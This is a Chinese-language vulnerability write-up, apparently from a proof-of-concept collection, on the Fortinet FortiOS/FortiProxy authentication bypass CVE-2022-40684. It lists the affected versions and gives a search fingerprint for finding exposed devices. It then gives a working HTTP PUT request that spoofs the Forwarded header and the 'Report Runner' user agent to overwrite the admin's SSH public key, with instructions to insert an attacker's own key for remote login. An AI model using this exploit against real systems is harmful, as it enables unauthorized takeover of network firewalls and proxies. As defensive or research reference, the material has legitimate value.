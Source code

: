 # Fortinet FortiOS admin 远程命令执行漏洞 CVE-2022-40684

## 漏洞描述

Fortinet 周一指出，上周修补的 CVE-2022-40684 身份验证绕过安全漏洞，正在野外被广泛利用。作为管理界面上的一个身份验证绕过漏洞，远程威胁参与者可利用其登录 FortiGate 防火墙、FortiProxy Web 代理、以及 FortiSwitch Manager（FSWM）本地管理实例

## 漏洞影响

<a-checkbox checked>FortiOS <= 7.2.1、7.2.0、7.0.6、7.0.5、7.0.4、7.0.3、7.0.2、7.0.1、7.0.0</a-checkbox></br>

<a-checkbox checked>FortiProxy <= 7.2.0、7.0.6、7.0.5、7.0.4、7.0.3、7.0.2、7.0.1、7.0.0</a-checkbox></br>

<a-checkbox checked>FortiSwitchManager <= 7.2.0、7.0.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="FortiProxy"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1666071814971-81c710e9-88e2-4d38-9a74-9562d4ab7f51-20221018134817098.png)

验证POC, 利用时更换 admin用户名及 ssh-public-key1中的 ssh key 添加远程 SSH登录凭证

```java
PUT /api/v2/cmdb/system/admin/admin HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 597
Content-Type: application/json
Forwarded: for="[127.0.0.1]:8888";by="[127.0.0.1]:8888"
User-Agent: Report Runner

{"ssh-public-key1": "123"}
```

![img](../../../.vuepress/public/img/1666071940784-a4fb7239-bc4e-4a56-9bd2-1a3447dc40cf-20221018134812305.png)